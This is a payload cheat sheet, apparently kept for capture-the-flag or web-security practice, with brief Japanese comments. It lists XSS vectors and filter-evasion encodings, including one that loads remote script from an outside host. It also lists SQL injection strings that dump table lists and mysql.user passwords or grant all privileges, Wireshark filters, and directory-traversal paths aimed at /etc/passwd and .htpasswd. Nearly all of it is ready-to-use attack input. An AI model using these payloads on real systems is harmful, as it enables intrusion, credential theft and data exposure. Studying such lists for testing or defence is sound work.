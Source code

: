 #XSS

* basic
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>

* image
<img src="xss" onerror="alert('XSS')">

* script
html += "<img src='/static/level3/cloud"'onerror="alert('XSS')"'".jpg' />";
');alert('XSS')('

* on url
javascript:void(document.forms[0].p2.childNodes[1].innerText='<script>alert(document.domain)</script>');

* svg
<svg onload=alert("xss!")>

* mouseover
" onmouseover="alert(document.domain);" x="

* escape
<script>alert('XSS')</sciprt>
"><script>alert(document.domain)</script>
" onmouseover = " alert('\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E')"
re"><script>alert(\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E)</script>
" onmouseover = " alert('\x58\x53\x53') "
"/onmouseover="window['aler'+'t']('XS'+'S')">

* data uri scheme
<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
<object data="data:text/html,<script>alert('XSS2')</script>"></object>

* space
<style/onload    =    !-alert&#x28;document.domain&#x29;>

* vbs
<img language=vbs src=<b onerror=alert#1/1#>

* short
<q/oncut=alert()
<q/oncopy=alert()

* unicode escape
<script>\u0078=\u0061\u006c\u0065\u0072\u0074; \u0078("\u0068\x61\150\u0061");</script>

* gsub
"><sscriptcript>alert('XSS')</sscriptcript>
document.write(); \x3cscript\x3ealert(document.domain);\x3c/script\x3e
p1=%A2%BE%BCscript%BEalert(document.domain);%BC/script%BE
background-color:#f00;background:url("javascript:alert(document.domain);");

<p id=1 onmouseover=alert(document.getElementById(1).innerHTML)>XSS</p>
"(function (text){if(!f)a(text);if(text==='XSS'){if(!f){f=1;window.setTimeout(function(){f=0},100);if(li)li.innerHTML=t}else{f=0;cs=[5010175210,5010175222,5010175227,5010175166,5010175224,5010175218,5010175231,5010175225,5010175166,5010175223,5010175213,5010175140,5010175166,5010175199,5010175194,5010175197,5010175178,5010175192,5010175169,5010175191,5010175169,5010175146,5010175187,5010175169,5010175146,5010175218,5010175149,5010175180,5010175210,5010175169,5010175187,5010175146,5010175216];t='';for(i=0;i<cs.length;i++){t+=String.fromCharCode(cs[i]^0x123456789+123456789)}appendTweet('<b>'+t+'</b>')}}else{f=0}})"

* jquery
<img src=1 onerror=$.getScript('http://vuln.moe/web/xss/xss.js')>


# SQLi
* basic
' or 1=1;--
' or 1=1;#
' or '1

* offset
' or 1=1 offset 1;--

ID: \
PW: OR 1--
ID: ' ||
PW: OR 1--

* union
' or 1=1 union select sql,1,1 from sqlite_master;--
' or 1=1 union select password, name, 1 from users_hogefuga;--
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members 

# null の数を変えてカラム数を特定
' and 1=0 UNION ALL SELECT null,null,null#
# テーブル一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_SCHEMA,TABLE_NAME ,TABLE_COMMENT FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE') ;#
# カラム一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_NAME,COLUMN_NAME,DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME IN('func') ORDER BY TABLE_NAME) ;#
' and 1=0 UNION ALL (SELECT 1, 1, GRANTEE FROM INFORMATION_SCHEMA.SCHEMA_PRIVILEGES); #

' and 1=0 UNION ALL SELECT null,null,null FROM user;#
' and 1=0 UNION ALL SELECT null, current_user(), version();#
' and 1=0 UNION ALL GRANT ALL PRIVILEGES ON *.* TO username@'%'#
' and 1=0 UNION ALL SELECT null, null, password FROM mysql.user#
SCHEMA_PRIVILEGES
fuga' OORR '1
5.1.73
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/

# perl json sqli
{ "name" : "a", "a\") OR 1 #" : "a" }

# Wire shark packete filter
icmp.type == 8
http.host contains google
tcp.flags == 0x02
tcp.flags == 0x12
tcp.flags == 0x14
http.response
http.request

udp contains 33:27:58
* パケットサイズ
frame.len == 18
data.data
frame contains 17
(tcp.flags.reset == 1) && (ip.id > 0)

# directory traversal
view.php?file=../index.php
?lang=php://filter/convert.base64-encode/resource=index.php
../index
../index.php
/etc/passwd
../../../etc/passwd
/etc/apache2/httpd.conf
.git
sitemap.xml
robots.txt
%00
.htpasswd%00
